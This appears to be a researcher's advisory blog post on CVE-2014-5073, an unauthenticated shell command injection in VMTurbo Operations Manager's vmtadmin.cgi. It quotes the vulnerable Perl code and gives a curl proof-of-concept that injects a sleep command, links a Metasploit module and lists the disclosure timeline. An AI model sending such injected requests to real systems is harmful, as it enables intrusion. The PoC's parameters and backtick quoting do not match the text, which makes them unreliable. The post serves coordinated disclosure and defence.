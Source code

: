 ```yaml
---
comments: true
date: 2014-07-30 23:58:30
layout: post
slug: 2014-07-30-vmturbo-operation-manager-remote-command-execution
title: VMTurbo Operations Manager vmtadmin.cgi Remote Command Execution
categories:
- Security
- Vulnerabilities
- Web Apps
tags:
- CVE-2014-5073
- advisory
- vmturbo
- pentesting
- security
- vulnerability
- rce
- cgi
- command execution 
---
```


[VMTurbo Operations Manager](http://vmturbo.com/product/operations-management-software/) is an appliance for the virtual machine management and can be exploite to compromise a vulnerable system due to an unauthenticated remote command execution vulnerability. 

Certain CGI scripts exposed by the Operation Manager web interface do not properly sanitized before being used to execute system command. This vulnerability can be exploited to inject and execute arbitrary shell commands with privileges of the "wwwrun" user.

The vulnerability affects VMTurbo Operations Manager versions prior to 4.6-28657.

## Vulnerability 

The affected CGI `cgi-bin/vmtadmin.cgi` is a Perl script used to execute certain administrative tasks, depending on the parameters `callType` and `actionType`.

```perl

my $actiontype = $query->param("actionType");
my $calltype = $query->param("callType");
my $filedate = $query->param("fileDate");

my $statusfile = (defined $filedate) ? $filedate : $mon.".".$mday.".".$year.".".$hour.$min.".".$actiontype.".vmturbo.txt";

# ...
if ( $calltype eq "READ" ) {
        # ...
}
# ...
elsif ($calltype eq "ACTION" ) {
        if ( $actiontype eq "EXPORTBACKUP" ) {
                &authenticate;
                # ...
		}
		# ...
}
elseif ($calltype eq "DOWN") {
        if ( $actiontype eq "CFGBACKUP" ) {
                # Cfg download
                # TODO: Check if missing (should not be possible, as we just created it)
                open(DLFILE, "</tmp/vmtbackup.zip");
                @fileholder = <DLFILE>;
                close (DLFILE);
                # remove the log file as we dont need it
                # Allow at least one read of the logs first
                sleep(1);
                system("rm \"$upload_dir$statusfile\"");
                print "Content-Type:application/zip\n";
                print "Content-Disposition:attachment;filename=vmtbackup.zip\n\n";
                print @fileholder;
        }
		# ...
}
```

While most of the available actions call the `authenticate()` function to authenticate the request, the actions available when `callType` is set to `DOWN` are not protected by the authentication check. Moreover, some of these actions call the Perl function `system()` passing as parameter the unsanitized user input.

## POC

The exploitation is blind and the command execution output is not returned to the HTTP request. We can obviusly use some time-based command to verify the vulnerabilty:

```bash
$ time curl "http://192.168.0.149/cgi-bin/vmtadmin.cgi?callType=ACTION&actionType=DOWN&fileDate=`sleep 10`"
real	0m10.114s
user	0m0.010s
sys     0m0.009s
$
```

The curl request returns after 10 seconds due to the `sleep 10` command executed on the vulnerable system.

## METASPLOIT MODULE

Find the metasploit module [vmturbo_vmtadmin_exec_noauth.rb](https://github.com/epinna/advisories/blob/master/CVE-2014-5073/vmturbo_vmtadmin_exec_noauth.rb) in my Github [Advisories](https://github.com/epinna/advisories) repository and find below a quick example of how it works.

<script type="text/javascript" src="https://asciinema.org/a/11176.js" id="asciicast-11176" async></script>

## REFERENCES

The [advisory](http://secunia.com/secunia_research/2014-8/) has been originally published by Emilio Pinna, Secunia Resarch.

Secunia has assigned the advisory id [SA58880](http://secunia.com/advisories/58880)

The Common Vulnerabilities and Exposures project (cve.mitre.org) has assigned the name [CVE-2014-5073](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5073) to the vulnerability.

## DISCLOSURE

16/06/2014 - Request for Security contact.
17/06/2014 - Vendor reply with contact details.
19/06/2014 – Vendor notified with vulnerability details.
01/07/2014 - Preliminary release date adjusted to 14th July, 2014.
18/07/2014 – Vendor provides KB article.
25/07/2014 – Public disclosure.

